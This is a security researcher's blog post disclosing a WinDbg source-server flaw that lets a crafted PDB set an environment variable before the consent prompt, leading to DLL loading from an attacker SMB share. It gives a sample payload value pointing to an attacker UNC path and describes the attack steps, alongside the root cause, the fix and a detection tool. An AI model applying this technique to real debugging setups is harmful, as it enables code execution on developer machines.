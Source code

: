 ```yaml
---
title: Exploiting WinDbg's Source Indexing
author: alexander
date: 2023-09-25 00:34:00 +0800
categories:
  - Vulnerability
  - MS
tags:
  - srcsrv
  - rce
comments_id: 1
image:
  path: /assets/img/1/ppc.png
  alt: SRCSRV Fail
---
```


This attack surface was actually noticed by me back in early days of windows development, somewhat about year 2016. While doing enterprise development, you inevitably need to respond if your product crashes at the end user side, and typical way for windows development is automatic collection of the crash dumps from end user to your company development infrastructure. The implementation of this process may vary, but usually it includes following steps:
1. Generation of crash dump at user side
2. Sending the crash dump to some dump collection server
3. Automatic triage
4. Notify developers about new bug
5. Developer doing manual triage

This process is already very complex and prone to vulnerabilities, but today we will focus on stage #5.

### Risk
Attacks on actual developers are highly dangerous, since this kind of staff usually has local admin rights, as well as access to large portion of source code, code signing certificates, and documentation, including write access to a part of product code. The impact may vary from information leaks to actual trojanization of company products, which will cost enormous sum for a company.


### Vulnerability summary
The vulnerability that we will describe today allows remote attackers to execute arbitrary code on affected installations of Microsoft WinDbg with Source Server client enabled. Access from target host to attacker-supplied SMB-share is required to exploit this vulnerability remotely. The specific flaw exists within the implementation of the SRCSRV Stream processing of pdb file by srcsrv.dll. The issue results from the improper usage of SRCSRVENV variable in SRCSRV stream of pdb file, which allows attacker to set arbitrary environment variable in current WinDbg instance. This behaviour may be abused to trigger DLL hijacking during DbgEngine reinitialization, and result in arbitrary DLL execution, including DLLs accessible by UNC paths, e.g. from an SMB server.

#### Description

**Products affected**

- WinDbg 10.0.19041.685
- Microsoft Source Server (srcsrv.dll) 10.0.19041.685

**Classification**

- Security feature bypass
- Local privilege elevation
- Remote code execution
- Code injection

### Details

WinDbg has feature called Source Indexing which allows developers to embed instructions to WinDbg on how to download source code for specific build of a PE file. These instructions are presented within a form of "ini" file, which can be embedded to a "srcsrv" stream of a PDB file, which is generated by MSVC compiler alongside to executable file, to provide additional debug information for the application. ![Srcsrv stream content example](/assets/img/1/clip_image001.png)

This ini files contain the following main keys:

- SRCSRVCMD - specifies command line template which actually downloads source code, e.g. "tf.exe get …"
- SRCSRVENV - specifies environment variables for SRCSRVCMD in form of "KEY=VALUE"

To mitigate execution of malicious command lines, default configuration of SrcSrv requires user consent before execution, which allows user to decide if the command is safe or not. User also has option (and desire) to turn off those consents permanently:
![Source server consent dialog](/assets/img/1/clip_image003.png)

While having this legacy security measure in place, Srcsrv.dll uses SRCSRVENV value to set environment variable in current WinDbg instance **before** the consent dialog is shown, which renders this security measure ineffective in this scenario.

![Vulnerable code](/assets/img/1/clip_image002.png)


### Remote exploitation scenario
Having all this information, let's plan the remote attack scenario.
Imagine that company X uses dump servers to collect crashdumps from customers for postmortem debugging of their software. Malicious actors craft a PDB file which triggers this vulnerability: they embed a SRCSRV stream to PDB with SRCSRVENV set to
`_NT_DEBUGGER_EXTENSION_PATH=\\192.168.1.2\box\1337\`

![Example setting](/assets/img/1/clip_image004.png)

This specific environment variable is used by Windbg engine as a search path for extension DLLs, which will be explained later.

They also craft a minidump file with a PE file in memory containing forged CV_INFO_PDB70 structure, and a PDB file which triggers this vulnerability. This structure is a standard way to point WinDbg to a location of a PDB file for a PE.

![Default value of PDB path in CV_INFO_PDB70 structure](/assets/img/1/clip_image005.png)

 In this case, attacker sets PdbFileName to a UNC path to SMB share, which contains a .pdb file with a crafted SRCSRV stream. Employee of Company X receives minidump file for crashdump analysis, and opens it in WinDbg, which loads a .pdb file from the SMB share. WinDbg identifies SRCSRV stream from PDB, and passes SRCSRV stream contents to srcsrv.dll SrcSrvExecTokenA function. This function reads SRCSRVENV variable and sets environment variable \_NT_DEBUGGER_EXTENSION_PATH. At this point the vulnerability is triggered. Later it displays consent window, but no matter of user consent, the WinDbg instance has spoiled process environment. After dealing with this crafted minidump, employee of Company X opens any minidump or executable binary (in the current WinDbg instance), and DbgEngine will load extension DLLs from the attacker-supplied SMB share.

![WinDbg loads attacker-supplied DLL](/assets/img/1/clip_image006.png)

Current attack scenario is based on \_NT_DEBUGGER_EXTENSION_PATH variable modification, which is basically a path to WinDbg debugger extensions like ext.dll/ntsdexts.dll/etc. They are being loaded at DbgEngine initialization, so the DLL hijacking will occur if user loads any other dump in current WinDbg instance.

### Root cause and remediation

SRCSRVENV is meant to provide environment variables to SRCSRVCMD command execution, so it must be specified e.g. on lpEnvironment argument of CreateProcess call, not for context of calling process using SetEnvironmentVariable.

**Fix available**

Ensure to use SDK version 10.0.22621.0 and higher.

**For older SDKs**

A tool was released for quick forensic of windows dump files: https://github.com/ph1048/dump_pdb_check

It checks a windows dump file for references of PDBs by malformed or UNC paths. It can be built in your dump server, or used manually.

### Supporting materials & references

Source indexing description: https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/source-indexing

**Communication history**

- 22 march 2021 – Report submitted to Microsoft
- 22 march 2021 – Report acknowledged by Microsoft
- 2 april 2021 – Problem confirmed by Microsoft
- 7 april 2021 – Bounty was awarded
- 17 july 2021 – Fix in testing
- 27 july 2021 – Plan to release fix in October SDK
- 9 october 2021 – Temporary CVE was assigned CVE-2021-X41358
- 13 october 2021 – MS decided to refuse CVE-2021-41358 registration
- 23 august 2023 – This article is published

